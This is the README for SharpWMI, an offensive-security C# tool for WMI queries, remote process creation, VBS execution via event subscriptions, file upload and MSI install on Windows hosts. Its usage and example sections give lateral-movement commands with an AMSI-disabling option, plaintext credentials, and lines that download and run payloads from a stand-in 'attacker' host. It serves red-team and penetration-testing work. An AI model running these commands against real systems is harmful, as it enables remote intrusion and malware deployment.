 
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods. 

[@harmj0y](https://twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
  Local system enumeration:        
    SharpWMI.exe action=query query=""select * from win32_service"" [namespace=BLAH]

  Remote system enumeration: 
    SharpWMI.exe action=query [computername=HOST1[,HOST2,...]] query=""select * from win32_service"" [namespace=BLAH]

  Remote system Logged On users enumeration:
    SharpWMI.exe action=loggedon [computername=HOST1[,HOST2,...]]

  Remote process creation: 
    SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]

  Remote VBS execution: 
    SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

  File upload via WMI:
    SharpWMI.exe action=upload [computername=HOST[,HOST2,...]] source=""C:\\source\\file.exe"" dest=""C:\\temp\\dest-file.exe"" [amsi=disable]

  Remote firewall enumeration :
    SharpWMI.exe action=firewall computername=HOST1[,HOST2,...]
    
  List processes:
    SharpWMI.exe action=ps [computername=HOST[,HOST2,...]]

  Terminate process (first found):
    SharpWMI.exe action=terminate process=PID|name [computername=HOST[,HOST2,...]]

  Get environment variables (all if name not given):
    SharpWMI.exe action=getenv [name=VariableName] [computername=HOST[,HOST2,...]]

  Set environment variable:
    SharpWMI.exe action=setenv name=VariableName value=VariableValue [computername=HOST[,HOST2,...]]

  Delete an environment variable:
    SharpWMI.exe action=delenv name=VariableName [computername=HOST[,HOST2,...]]

  Install MSI file:
    SharpWMI.exe action=install [computername=HOST[,HOST2,...]] path=""C:\\temp\\installer.msi"" [amsi=disable]

NOTE: 
  - Any remote function also takes an optional ""username=DOMAIN\\user"" ""password=Password123!"".
  - If computername is not specified, will target localhost.
```

The `result=true` option on `action=exec` (alternatively `action=create`) makes SharpWMI to return command's output after remote WMI process creation. It works by storing command's output in an instance of arbitrary WMI object. That object would  then be fetched by callee and restored to it's original value.


### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in `[script-specification]` offers following methods to point this tool at target VBS code:

```
  A) Executes OS command via preset VBS code:
    SharpWMI.exe action=executevbs [...] command="notepad.exe"

  B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
    SharpWMI.exe action=executevbs [...] url="http://attacker/myscript.ps1"

  C) Download a binary file from given URL, store it in specified path and then execute it:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe"

  D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

  E) Read VBS script from file and execute it:
    SharpWMI.exe action=executevbs [...] script="myscript.vbs"

  F) Execute given VBS script given literally:
    SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

  G) Base64 decode input string being encoded VBS script and execute it on remote machine:
    SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

  H) Read contents of given file, base64 decode them and then execute on target machine:
    SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

  Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
    SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
  SharpWMI.exe action=query query=""select * from win32_process""

  SharpWMI.exe action=query query=""SELECT * FROM AntiVirusProduct"" namespace=""root\\SecurityCenter2""

  SharpWMI.exe action=loggedon computername=primary.testlab.local

  SharpWMI.exe action=query computername=primary.testlab.local query=""select * from win32_service""

  SharpWMI.exe action=query computername=primary,secondary query=""select * from win32_process""

  SharpWMI.exe action=exec computername=primary.testlab.local command=""powershell.exe -enc ZQBj...""

  SharpWMI.exe action=exec computername=primary.testlab.local command=""whoami"" result=true amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local command=""notepad.exe"" eventname=""MyLittleEvent"" amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local username=""TESTLAB\\harmj0y"" password=""Password123!""

  SharpWMI.exe action=upload computername=primary.testlab.local source=""beacon.exe"" dest=""C:\\Windows\\temp\\foo.exe"" amsi=disable

  SharpWMI.exe action=terminate computername=primary.testlab.local process=explorer

  SharpWMI.exe action=getenv name=PATH computername=primary.testlab.local

  SharpWMI.exe action=setenv name=FOO value=""BAR"" computername=primary.testlab.local

  SharpWMI.exe action=delenv name=FOO computername=primary.testlab.local

  SharpWMI.exe action=install computername=primary.testlab.local path=""C:\\temp\\installer.msi""
```

Get local TCP netstat-style information from a remote Windows 10 machine:

    SharpWMI.exe action=query computername=COMPUTER query="Select LocalPort,OwningProcess from MSFT_NetTCPConnection" namespace="ROOT\StandardCIMV2"


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself :)

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution  |Author  |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https://github.com/harmj0y)  |
|WMI code-exec output idea |[Evi1cg @Ridter](https://github.com/Ridter)  |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https://github.com/0xthirteen)  |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky)  |
|Install MSI files |[Justin Bui @slyd0g](https://github.com/slyd0g)  |